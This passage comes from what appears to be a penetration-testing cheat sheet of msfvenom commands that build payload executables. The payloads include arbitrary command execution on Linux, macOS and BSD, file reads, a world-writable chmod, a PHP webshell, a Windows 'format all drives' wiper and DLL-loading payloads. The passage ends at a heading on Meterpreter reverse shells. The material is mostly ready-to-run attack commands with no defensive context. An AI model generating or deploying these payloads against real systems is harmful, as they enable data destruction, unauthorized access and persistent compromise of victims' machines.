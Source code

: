`$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o exec-chmod-file-x86`

`$ msfvenom -p linux/x86/exec cmd=<command> -f elf -o exec-cmd-x86`

`$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o read-file-x86`

##### 2.5.3.6 - Execute OSX Exec Payload

`$ msfvenom -p osx/x86/exec cmd=<command> -f macho -o exec-cmd-x86`

`$ msfvenom -p osx/x64/exec cmd=<command> -f macho -o exec-cmd-x64`

##### 2.5.3.7 - Execute BSD Exec Payload

`$ msfvenom -p bsd/x86/exec cmd=<commands> -f elf -o exec-cmd-x86`

`$ msfvenom -p bsd/x64/exec cmd=<commands> -f elf -o exec-cmd-x64`

##### 2.5.3.8 - Execute Webshells Exec Payload

`$ msfvenom -p php/exec cmd=<commands> -f raw -o exec.php`

`$ cat exec.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php`

##### 2.5.3.9 - Text-To-Speech Windows Exec Payload

`$ msfvenom -p windows/speak_pwned -f exe -o speak-x86.exe`

##### 2.5.3.10 - Text-To-Speech OSX Exec Payload

`$ msfvenom -p osx/x64/say text=<message> -f macho -o speak-x64`

##### 2.5.3.11 - Format All Drives Windows Exec Payload

`$ msfvenom -p windows/format_all_drives volumelabel=<label> -f exe -o wiper-x86.exe`

##### 2.5.3.12 - Messagebox Windows Exec Payload

`$ msfvenom -p windows/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x86.exe`

`$ msfvenom -p windows/x64/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x64.exe`

##### 2.5.3.13 - LoadLibrary Windows Exec Payload

`$ msfvenom -p windows/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x86.exe`

`$ msfvenom -p windows/x64/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x64.exe`

### 2.6 - Meterpreter Payloads

#### 2.6.1 - Reverse Meterpreter Shells

##### 2.6.1.1 - Staged Python Meterpreter Reverse Shells
